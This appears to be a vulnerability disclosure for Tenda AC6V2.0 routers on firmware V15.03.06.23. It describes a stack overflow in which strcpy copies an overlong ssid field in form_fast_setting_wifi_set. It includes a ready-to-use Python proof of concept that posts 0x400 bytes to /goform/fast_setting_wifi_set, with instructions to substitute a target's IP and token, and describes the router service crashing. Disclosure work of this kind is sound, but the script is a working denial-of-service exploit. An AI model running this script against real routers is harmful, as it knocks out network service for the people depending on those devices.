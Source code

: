 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6V2.0 Series Routers

**Affected firmware version:**  AC6V2.0升级软件_V15.03.06.23_multi

**Firmware download address:**[AC6V2.0升级软件](https://www.tenda.com.cn/material/show/102855)

# Overview

A **stack overflow vulnerability** in the `form_fast_setting_wifi_set` function in the AC6V2.0 firmware upgrade _V15.03.06.23_multi allows an attacker to craft a very long `ssid` variable, causing a stack overflow, which then leads to a DDoS attack.

# Vulnerability details

Analyzing the form_fast_setting_wifi_set function in this file reveals that when the value of the ssid variable is a very long string, such as 400 characters of "a", a stack overflow attack occurs because the ssid_24g variable, due to insufficient buffer length, overflows when the value is assigned via the strcpy function.

![image-20250312222548492](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122229805.png)

Cross-referencing the form_fast_setting_wifi_set function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250312222912574](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122229560.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip="192.168.0.34"

url = f"http://{ip}/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.0.34",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.134.66",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.34/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "ssid": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)